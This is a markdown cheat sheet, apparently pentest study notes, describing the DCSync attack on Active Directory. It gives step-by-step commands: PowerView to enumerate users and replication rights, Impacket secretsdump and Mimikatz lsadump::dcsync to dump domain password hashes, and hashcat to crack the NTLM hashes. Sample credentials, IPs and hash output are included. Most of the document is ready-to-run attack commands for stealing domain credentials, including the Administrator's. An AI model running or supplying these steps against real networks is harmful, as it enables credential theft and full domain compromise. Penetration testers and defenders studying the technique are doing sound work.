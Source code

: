 # Domain Controller Synchronization (dcsync)
## Overview
**DCSync** is an attack that leverages the Directory Replication Service Remote Protocol (DRSR) to impersonate a Domain Controller (DC) and request replication of password data from Active Directory (AD). By abusing the extended rights (specifically, the _DS-Replication-Get-Changes_ and _DS-Replication-Get-Changes-All_ permissions), an attacker can retrieve password hashes (and sometimes even cleartext passwords) for AD accounts.
### 1. Reconnaissance and User Enumeration

**Goal:** Identify the target user and verify their group memberships.
**Sample Command (using PowerView in PowerShell):**

```powershell
Get-DomainUser -Identity adunn | Select-Object samaccountname, objectsid, memberof, useraccountcontrol | Format-List
```

- **What It Does:** Retrieves details about the user (here, “adunn”), including the SID, group memberships, and account control settings.

---

### 2. Verify Replication Rights
Required privileges to perform replication:
        - **Replicating Directory Changes**
        - **Replicating Directory Changes All**
        - **Replicating Directory Changes in Filtered Set**
    - By default, members of the following groups have these rights:
        - Domain Admins
        - Enterprise Admins
        - Administrators
        
**Goal:** Confirm that the target (or another account you control) has the required replication privileges.

**Sample Command (using PowerView):**

```powershell
$sid = "S-1-5-21-3842939050-3880317879-2865463114-1164"  # Replace with the actual SID
Get-ObjectAcl "DC=yourdomain,DC=com" -ResolveGUIDs |
    Where-Object { $_.ObjectAceType -match 'Replication-Get' } |
    Where-Object { $_.SecurityIdentifier -match $sid } |
    Select-Object AceQualifier, ObjectDN, ActiveDirectoryRights, SecurityIdentifier, ObjectAceType |
    Format-List
```

- **What It Does:** Scans the ACLs on the domain object (e.g., `DC=yourdomain,DC=com`) and filters for ACEs related to replication. Check for entries such as `DS-Replication-Get-Changes` and `DS-Replication-Get-Changes-All` for the target SID.

---

### 3. Executing the DCSync Attack with Impacket’s secretsdump.py

**Goal:** Request replication from the DC and extract sensitive credential data.

**Sample Command (from a Linux or Windows system with Python and Impacket installed):**

```bash
secretsdump.py -outputfile domain_hashes -just-dc YOURDOMAIN/targetUser@targetIP
```

- **Parameters:**
    - `YOURDOMAIN`: Replace with your actual domain name.
    - `targetUser`: The username that has replication privileges.
    - `targetIP`: The IP address of the domain controller.
       
        ```bash
        impacket-secretsdump -just-dc-user <username> <domain>/<admin_user>:<password>@<dc_ip>
        ```
        
    - **Example**:
        
        ```bash
        impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70
        ```
        
    - **Result (Extract)**:
        
        ```
        [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
        dave:1103:aad3b435b51404eeaad3b435b51404ee:08d7a47a6f9f66b97b1bae4178747494:::
        ```
        
- **What It Does:** Initiates a replication request mimicking a DC. It writes out the NTLM hashes, Kerberos keys, and, if applicable, cleartext passwords to files prefixed with `domain_hashes`.

**After Running, List the Files:**

```bash
ls domain_hashes*
```

- **Expected Files:**
    - `domain_hashes.ntds` – Contains NTLM hashes.
    - `domain_hashes.ntds.kerberos` – Contains Kerberos keys.
    - `domain_hashes.ntds.cleartext` – Contains any cleartext credentials (if reversible encryption is enabled).

---

### 4. Executing the DCSync Attack with Mimikatz
**Run Mimikatz**
    
 ```bash
.\mimikatz.exe
```

**Command**: Dump the NTLM hash of a target user:
        
```bash
lsadump::dcsync /user:<domain>\<username>
 ```
        
**Example**:
        
```bash
lsadump::dcsync /user:corp\dave
 ```
        
**Result (Extract)**:
        
```
Credentials:
Hash NTLM: 08d7a47a6f9f66b97b1bae4178747494
```
        
3. **Crack the NTLM Hash**
    
    - **Command**:
        
        ```bash
        hashcat -m 1000 <hash_file> <wordlist> -r <rule_file> --force
        ```
        
    - **Example**:
        
        ```bash
        hashcat -m 1000 hashes.dcsync /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
        ```
        
4. **Dump Domain Admin Hashes**
    
    - Dump credentials of the **Administrator** user:
        
        ```bash
        lsadump::dcsync /user:corp\Administrator
        ```
